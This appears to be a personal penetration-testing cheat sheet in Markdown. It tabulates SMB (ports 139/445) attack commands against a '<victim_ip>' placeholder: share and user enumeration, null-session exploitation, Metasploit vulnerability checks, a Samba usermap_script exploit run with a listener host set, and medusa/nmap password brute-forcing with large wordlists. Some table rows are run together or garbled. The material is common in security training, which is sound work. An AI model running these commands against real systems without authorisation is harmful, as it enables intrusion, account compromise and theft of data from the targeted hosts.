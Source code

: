 # 🔥 SMB

Tags: #🔥
Related to:
See also:
Previous: [[TTP]]

|Categories|OS|Tool|Intent|Command|Comments|
|:----|:----|:----|:----|:----|:----|
|139/445 - smb|Linux|nmblookup |Enumerate hostname|`nmblookup -A <victim_ip>`| |
|139/445 - smb|Linux|enum4linux|Enumerate hostname|`enum4linux -n <victim_ip>`|Versions Samba 2.2.x are red flag|
|139/445 - smb|Linux / Windows|nmap|Quick Enumeration|`nmap --script=smb-enum* --script-args=unsafe=1 -T5 <victim_ip>`| |
|139/445 - smb|Linux|smbver script|get version|`smbver.sh <victim_ip>`|Script used to get smb version if nmap fails|
|139/445 - smb|Linux|Metasploit|get version|`Msfconsole;use scanner/smb/smb_version`|metasploit modele to get smb version|
|139/445 - smb|Linux|ngrep|get version|`ngrep -i -d tap0 's.?a.?m.?b.?a.*[[:digit:]]' smbclient -L \\\\<victim_ip>`|Manual method to get version if all else fails|
|139/445 - smb|linux / windows|wireshark|get version|`#1:run Wireshark #2:smbmap -H <victim_ip> #3:follow the tcp stream of the smb negotiation`|noted by  1kwstassak in reddit.com|
|139/445 - smb|linux|smbmap|get shares|`smbmap -H  <victim_ip> -R <sharename>`| Recursively display files in specific share139/445 – smb|linux|smbclient|get shares|echo exit | smbclient -L \\\\$ip| |
|139/445 - smb|linux|smbclient|get shares|`smbclient \\\\<victim_ip>\\<share>` |more details in cherrytree file (1.information gathering > Active > Enumeration > Services > 139.SMB)|
|139/445 – smb|linux|smbclient|get shares|`smbclient -L //<victim_ip> -N`|-N Force the tool to not ask for password|
|139/445 - smb|Linux / Windows|nmap|get shares|`nmap --script smb-enum-shares -p139,445 -T4 -Pn <victim_ip>`| |
|139/445 - smb|linux|smbclient|get shares|`smbclient -L \\\\<victim_ip>\\` |more details in cherrytree file (1.information gathering > Active > Enumeration > Services > 139.SMB)|
|139/445 - smb|linux|smbmap|Check Null Sessions|`smbmap -H <victim_ip>`|vulnerable version :  Windows NT, 2000, and XP (most SMB1) - VULNERABLE: Null Sessions can be created by default  Windows 2003, and XP SP2 onwards - NOT VULNERABLE: Null Sessions can't be created default  Most Samba (Unix) servers|
|139/445 – smb|linux|rpcclient|Check Null Sessions|`rpcclient -U "" -N $ip`| |
|139/445 – smb|linux|smbclient|Check Null Sessions|`smbclient //<victim_ip>/IPC$ -N`|Success #:/smb>|
|139/445 – smb|linux|enum|Exploit null Sessions|`enum -s <victim_ip>`|enumerate the shares of a machine|
|139/445 – smb|linux|enum|Exploit null Sessions|`enum -U <victim_ip>`|-U enumerate usersA133:AMJ133|
|139/445 – smb|linux|enum|Exploit null Sessions|`enum -P <victim_ip>`|-P check the password policy|
|139/445 – smb|linux|enum4linux|Exploit null Sessions|`enum4linux -a <victim_ip>`|enum4linux -a (use all enum switches useres/shares/password policies)|
|139/445 – smb|linux|samrdump.py|Exploit null Sessions|`using /usr/share/doc/python3-impacket/examples/samrdump.py #./samrdump.py <victim_ip>`| |
|139/445 - smb|linux|smbclient|connect to Username shares|`smbclient //$ip/share -U username`|this step required u have a cred|
|139/445 - smb|linux|smbclient|connect to share Anonymously|`smbclient \\\\<victim_ip>\\<share>`|more details in cherrytree file (1.information gathering > Active > Enumeration > Services > 139.SMB) Example : smbclient \\\\<victim_ip>\\IPC$|
|139/445 - smb|linux|smbclient|connect to share Anonymously|`smbclient //<victim_ip>/<share>`| |
|139/445 - smb|linux|smbclient|connect to share Anonymously|`smbclient //<victim_ip>/<share\ name> smbclient //<victim_ip>/<"share name">`|If share has a space inbetween its name (eg. "My Shares")|
|139/445 - smb|linux|rpcclient|connect to share Anonymously|`rpcclient -U " " <victim_ip>`|Connect to null share which is the IPC$ share, enumerate with specifc commands, refer to onenote|
|139/445 - smb|linux|rpcclient|connect to share Anonymously|`rpcclient -U " " -N <victim_ip>`|Connect to null share which is the IPC$ share, enumerate with specifc commands, refer to onenote|
|139/445 – smb|linux / Windows|nmap|check vuln|`nmap --script smb-vuln* -p139,445 -T4 -Pn <victim_ip>`| |
|139/445 – smb|Linux / Windows|Metasploit|check common security concerns|`#msf> resource smb_checks.rc  Or  # msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_checks.rc`|# This resource scripts will check common security concerns on SMB for Windows.  # Specifically, this script will check for these things: #  #   * MS08-067.  #   * MS17-010.  #   * SMB version 1. #|
|139/445 – smb|Linux / Windows|Metasploit|extra validation|`#msf> resource smb_validate.rc Or  # msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_validate.rc`|after running the previous check139/445 – smb|Linux / Windows|Metasploit|multi exploits|msfconsole; use exploit/multi/samba/usermap_script; set lhost 192.168.0.X; set rhost $ip; run| |
|139/445 – smb|linux|nmap/medusa|Brute Force login|`after enumerating users u can brute force login  #medusa -h <victim_ip> -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt  #nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt <victim_ip>  -vvvv #nmap –script smb-brute <victim_ip>`| |